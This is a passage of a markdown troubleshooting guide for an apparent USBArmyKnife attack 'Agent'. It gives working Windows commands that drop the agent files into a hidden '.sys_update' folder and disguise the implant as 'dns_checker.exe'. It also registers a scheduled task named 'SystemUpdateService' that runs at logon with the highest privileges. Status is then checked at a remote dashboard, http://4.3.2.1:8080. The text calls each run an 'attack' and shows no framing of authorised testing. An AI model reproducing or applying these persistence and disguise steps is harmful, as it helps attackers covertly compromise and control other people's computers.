[^agent]: If these steps don't work and the Agent does not connect, there is a [Manual Fix](#manual-fix-for-agent-not-connecting).

---

## Manual Fix For Agent Not Connecting

This information is the science behind the magic and should only be utilized as a last resort if the other troubleshooting steps don't work. 

1. Check the install log at `C:\Users\Public\Documents\.sys_update\install.log`. 
2. Re-run the `in1.bat` script and watch the log live. `in1.bat` clears the log file then writes all steps to the log file during each attack.
3. Ensure all Agent Files are in the Target Directory. If not in place, copy them from the install machine

> Agent Files: `dns_checker.exe, turbojpeg.dll, vcruntime140.dll, in1.bat`
> Target Directory: `C:\Users\Public\Documents\.sys_update`

4. Verify if the process is running

```powershell
tasklist /FI "IMAGENAME eq dns_checker.exe" | findstr /I "dns_checker.exe"
```

5. Kill any running instances

```powershell
taskkill /F /IM "dns_checker.exe"
timeout /t 2 /nobreak
```

6. Start the Agent attack via the executable. This requires the VID and PID variables (viewable from settings tab on `USBArmyKnife` dashboard)

```powershell
cd /d C:\Users\Public\Documents\.sys_update
start /B "dns_checker.exe" vid=VID pid=PID
```

7. Start the Agent attack in Scheduled Tasks.
 
```powershell
schtasks /Delete /TN "SystemUpdateService" /F
schtasks /Create /TN "SystemUpdateService" ^
    /TR "\"C:\Users\Public\Documents\.sys_update\dns_checker.exe\" vid=%VID% pid=%PID%" ^
    /SC ONLOGON /RL HIGHEST /F
```

8.  Return to the View Machine, verify it is connected to the `iphone14` WiFi access point, browse to `http://4.3.2.1:8080`, and check Agent status

---


Created: April 15, 2026
Updated: April 17, 2026
